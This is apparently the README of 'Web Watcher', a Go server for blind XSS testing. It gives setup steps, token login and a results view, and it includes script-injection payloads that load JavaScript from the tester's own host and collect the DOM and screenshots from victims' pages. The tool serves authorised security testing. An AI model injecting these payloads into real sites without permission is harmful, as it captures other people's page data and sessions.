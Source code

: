 # Web Watcher  
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup  
1. Install  
```
git clone https://github.com/pichik/webwatcher
```
2. Build application
```
sudo go build -o /usr/local/bin/webwatcher webwatcher/main.go
```
3. Set permissions for ports 
```
sudo setcap CAP_NET_BIND_SERVICE+ep ~/go/bin/webwatcher
``` 
3. Fill `.wwconfig` and add it to your home directory.  
4. Move web directory to a place specified in config.  
5. Remove the rest.

All files in `assets/` are publicly accessible.  
If you are running https, directory with certificates should be generated.  
## Usage
Login to your website with /login?token=[token]  

After authentication, you can find all requests in `/results/all`.  
Left side is from  XSS requests.  
Right side is from custom path requests.  
![results](screenshots/results.png)  


### Collecting simple data from Collector path
This endpoint will contain response specified in `assets/extensions.json` file  
```
  "js": {
    "Extension": [".js", ".mjs"],
    "Content-Type": "application/javascript",
    "Payload": "alert(document.domain)"
  }
```   
Insert this payload to the website, alert will popup.  
`<script src=https://domain.com/pichik.js></script>`  
This endpoint use regex `pichik.*` so you can use `pichik-anything/after/counts.html`  

### Collecting data from blind XSS  
You can use any endpoint for testing blind XSS, but dont use your collector path for this, as it have priority, so no blind XSS payload will be send.  
Detailed report will be created, with DOM and Screenshort.  
These request will be sent to slack, if specified in config.  
`<script src=https://domain.com></script>`  
![blind xss](screenshots/blindxss.png)  



